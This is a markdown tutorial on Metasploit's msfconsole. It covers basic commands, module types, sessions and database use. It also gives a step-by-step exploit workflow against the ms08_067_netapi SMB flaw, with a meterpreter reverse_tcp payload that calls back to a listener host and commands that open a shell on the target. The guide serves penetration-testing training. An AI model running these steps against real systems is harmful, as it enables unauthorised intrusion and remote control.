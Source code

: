 # Navigating the Metasploit Console (msfconsole)

## Introduction
The Metasploit Framework Console (`msfconsole`) is the most powerful and flexible interface for working with Metasploit. It provides complete control over exploits, payloads, and auxiliary modules, making it essential for penetration testers and security professionals.

This guide will walk you through the essential commands and techniques to navigate and utilize `msfconsole` effectively.

## Table of Contents
- [Starting msfconsole](#starting-msfconsole)
- [Basic Commands](#basic-commands)
- [Module Navigation](#module-navigation)
- [Working with Exploits](#working-with-exploits)
- [Using Payloads](#using-payloads)
- [Managing Sessions](#managing-sessions)
- [Database Integration](#database-integration)
- [System Commands](#system-commands)
- [Conclusion](#conclusion)

## Starting msfconsole
To launch `msfconsole`, open a terminal and type:

```bash
msfconsole
```

For a faster, minimal startup, use:

```bash
msfconsole --quiet
```

## Basic Commands
Here are some fundamental commands to get started:

| Command | Description |
|---------|-------------|
| `help` | Displays available commands |
| `banner` | Changes the startup banner |
| `version` | Shows the Metasploit version |
| `search <keyword>` | Searches for available modules |
| `use <module>` | Selects a specific module |
| `info` | Displays details about the selected module |
| `back` | Exits the current module |
| `exit` | Quits Metasploit |

## Module Navigation
Metasploit has multiple types of modules:

- **Exploit Modules** (`exploit/`)
- **Payload Modules** (`payload/`)
- **Auxiliary Modules** (`auxiliary/`)
- **Post-Exploitation Modules** (`post/`)
- **Encoders** (`encoder/`)
- **NOP Generators** (`nop/`)

To list modules, use:

```bash
show exploits
show payloads
show auxiliary
```

## Working with Exploits
1. Search for an exploit:

   ```bash
   search windows smb
   ```

2. Select an exploit:

   ```bash
   use exploit/windows/smb/ms08_067_netapi
   ```

3. Show required options:

   ```bash
   show options
   ```

4. Set target parameters:

   ```bash
   set RHOSTS 192.168.1.10
   set LHOST 192.168.1.100
   ```

5. Execute the exploit:

   ```bash
   exploit
   ```

## Using Payloads
Payloads define what happens after an exploit succeeds. To list available payloads:

```bash
show payloads
```

To set a payload:

```bash
set payload windows/meterpreter/reverse_tcp
```

## Managing Sessions
After successful exploitation, sessions are created. Manage them with:

```bash
sessions -l   # List active sessions
sessions -i <id>   # Interact with a session
background   # Background the current session
```

## Database Integration
Metasploit can use a database to store scan results and exploit attempts. Initialize it with:

```bash
msfdb init
```

To connect to the database:

```bash
msfconsole
```

Useful database commands:

```bash
hosts    # Show discovered hosts
services # List running services
vulns    # Display known vulnerabilities
```

## System Commands
Metasploit allows execution of system commands directly from `msfconsole`:

```bash
shell    # Opens a command shell on the target
execute  # Runs a command on the target
route    # Displays and modifies routing tables
```

## Conclusion
Navigating `msfconsole` effectively is key to mastering Metasploit. With the commands and techniques covered in this guide, you should be well-equipped to explore Metasploit further and conduct penetration tests efficiently.

For more advanced usage, refer to the [official Metasploit documentation](https://docs.rapid7.com/metasploit/).
